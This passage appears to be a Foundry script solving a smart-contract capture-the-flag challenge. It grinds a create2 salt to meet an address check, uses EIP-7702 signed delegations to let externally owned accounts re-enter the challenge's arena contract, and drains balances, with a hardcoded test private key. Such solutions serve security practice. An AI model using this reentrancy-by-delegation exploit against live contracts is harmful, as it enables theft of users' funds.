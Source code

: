 ```solidity
    function step1() internal runAsPlayer {
        uint256 agentPk = 0x59c6995e998f97a5a0044966f0945389dc9e86dae88c7a8412f4603b6b78690d;

        // sending some eth for gas usage of our agent
        (bool success, ) = vm.addr(agentPk).call{value: 0.1 ether}("");
        require(success, "sending ether to our agent failed");

        bytes memory code = type(MyAgent).creationCode;
        address agentImplementation;

        uint256 i = 0;
        while (true) {
            assembly {
                agentImplementation := create2(
                    0,
                    add(code, 0x20),
                    mload(code),
                    i
                )
            }
            bytes20 _test = (bytes20(address(agentImplementation)));
            if (jailbreaker(_test)) {
                break;
            }
            i++;
        }

        // Agent signs a delegation allowing `agentImplementation` to execute transactions on its behalf.
        Vm.SignedDelegation memory signedDelegation = vm.signDelegation(
            address(agentImplementation),
            agentPk
        );
        vm.attachDelegation(signedDelegation);

        // now lets register user and ask for bloooood
        arena.deposit{value: 7 ether}();
        arena.register(vm.addr(agentPk));
        arena.claimPig();
        arena.claimPig();
        arena.claimPig();
        arena.requestBattle(address(challenge), 5.9 ether); // 5.9 because if we win we've enough to withdraw (> 10 ether in total), and that let us some wei for gas usage
    }

    function step2() internal runAsPlayer {
        MyEOAImplementation eoaImplem = new MyEOAImplementation();
        // We signs a delegation allowing a contract to execute transactions on our behalf (allowing reentrancy with an EOA).
        Vm.SignedDelegation memory signedDelegation = vm.signDelegation(
            address(eoaImplem),
            playerPk
        );
        vm.attachDelegation(signedDelegation);
        (bool success,) = address(player).call(
            abi.encodeWithSignature("gogogo(address)", address(arena))
        );
        require(success, "Reentrancy failed :(");

        console.log("player arena.balance:", arena.balanceOf(player));
        console.log("chal arena.balance:", arena.balanceOf(address(challenge)));
        console.log("player balance ether:", player.balance);
        console.log(challenge.isSolved());
```